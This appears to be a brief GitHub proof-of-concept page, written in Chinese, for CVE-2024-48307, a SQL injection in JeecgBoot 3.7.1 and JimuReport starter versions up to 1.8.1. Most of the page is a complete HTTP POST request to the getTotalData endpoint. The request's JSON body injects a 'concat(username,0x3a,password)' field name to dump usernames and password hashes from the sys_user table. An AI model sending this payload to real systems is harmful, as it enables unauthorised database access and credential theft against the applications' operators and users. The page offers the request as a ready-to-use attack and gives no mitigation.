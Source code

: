 ## **影响版本**

jimureport-spring-boot-starter.version<=1.8.1

JeecgBoot v3.7.1

## CVE-2024-48307 POC

```http
POST /jeecg-boot/drag/onlDragDatasetHead/getTotalData HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 284

{"tableName":"sys_user","compName":"test","condition":{"filter":{}},"config":{"assistValue":[],"assistType":[],"name":[{"fieldName":"concat(username,0x3a,password)","fieldType":"string"},{"fieldName":"id","fieldType":"string"}],"value":[{"fieldName":"id","fieldType":"1"}],"type":[]}}
```

![CVE-2024-48307 JeecgBoot 3.7.1 SQL注入](./image/1112-3-scaled.webp)